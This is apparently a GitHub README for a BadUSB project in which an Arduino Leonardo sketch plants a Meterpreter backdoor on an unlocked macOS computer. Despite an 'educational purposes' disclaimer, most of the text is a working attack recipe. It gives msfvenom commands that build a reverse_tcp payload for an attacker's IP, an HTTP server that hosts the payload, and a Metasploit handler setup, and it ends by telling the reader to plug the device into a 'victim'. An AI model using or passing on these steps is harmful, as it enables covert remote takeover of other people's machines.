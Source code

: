 # Description
A simple sketch for handle MacOS meterpreter session using an Arduino Leonardo (atmega32u4)
# Disclaimer
This sketch was created only for educational purposes. This script shows the danger of leaving your computer unlocked. The author respects the rights and freedom of each person and is not responsible for your actions.
# Demonstration
MacOS desktop:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/badusb_macos.gif)
Kali:
![](https://github.com/cucurucuq/arduino_leonardo_macos_meterpreter/blob/main/capture_session.gif)
# Usage 
We need to use Metasploit Framework and simple http server, you can use Kali Linux

1. Generate a backdoor file
```
$ msfvenom payload python/meterpreter/reverse_tcp LHOST=attacker's IP LPORT=8080 > /var/www/html/path/to/file
```
2. Run simple HTTP server 
```
$ cd /var/www/html/
$ python3 -m http.server 8081
```
3. Open Metasploit and start multi-handler
```
$ use exploit/multi/handler
$ set payload python/meterpreter/reverse_tcp
$ set LHOST attacker's IP
$ set LPORT 8080
$ run
```
4. Download .ino file and Arduino IDE
5. Update attacker's IP, host, port and path to backdoor file using Arduino IDE
6. Upload this sketch to your Arduino Leonardo using Arduino IDE
7. Put your BadUSB to victim and wait a capture of meterpreter session!
